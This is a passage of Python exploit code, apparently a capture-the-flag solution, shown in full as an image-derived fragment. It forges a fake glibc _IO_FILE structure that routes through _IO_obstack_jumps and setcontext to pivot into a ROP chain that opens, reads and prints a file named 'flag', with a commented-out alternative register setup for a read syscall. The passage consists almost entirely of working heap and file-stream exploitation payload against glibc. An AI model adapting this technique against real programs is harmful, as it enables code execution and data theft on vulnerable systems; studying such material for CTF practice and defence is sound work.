 ```python

    fake_ucontext = ucontext_t()
    fake_ucontext.rip = ret
    fake_ucontext.rsp = fake_IO_file_addr + 0x300

    ''' read
    fake_ucontext = ucontext_t()
    fake_ucontext.rip = syscall_ret
    fake_ucontext.rsp = fake_IO_file_addr + 0x4000
    fake_ucontext.rdi = 0
    fake_ucontext.rsi = fake_IO_file_addr + 0x4000
    fake_ucontext.rdx = 0x100
    '''

    fake_IO_file = flat({
            0:{
                0x8: 1,     # next_free
                0x10: 0,    # chunk_limit
                0x18: 1,    # _IO_write_ptr 
                0x20: 0,    # _IO_write_end
                0x28: setcontext,   # gadget
                0x38: fake_IO_file_addr + 0x100,        # rdi
                0x40: 1,
                0x58: 0,    # chain
                0x78: _IO_stdfile_2_lock,   # _IO_stdfile_1_lock
                0x90: _IO_wide_data,        # _IO_wide_data_2
                0xc8: _IO_obstack_jumps + 0x20,
                0xd0: fake_IO_file_addr     # obstack(B)
            }, 
            0xf0: bytes(fake_ucontext),
            0x2f0:
                [
                    pop_rax_ret,  # sys_open('flag', 0)
                    2,
                    pop_rdi_ret,
                    flag_addr,
                    pop_rsi_ret,
                    0,
                    syscall_ret,

                    pop_rax_ret,  # sys_read(flag_fd, heap, 0x100)
                    0,
                    pop_rdi_ret,
                    3,
                    pop_rsi_ret,
                    data,
                    pop_rdx_rbx_ret,
                    0x40,
                    0,
                    syscall_ret,

                    pop_rax_ret,  # sys_write(1, heap, 0x100)
                    1,
                    pop_rdi_ret,
                    1,
                    pop_rsi_ret,
                    data,
                    pop_rdx_rbx_ret,
                    0x40,
                    0,
                    syscall_ret
                ],
            0x3f0: 'flag\x00\x00\x00\x00',
```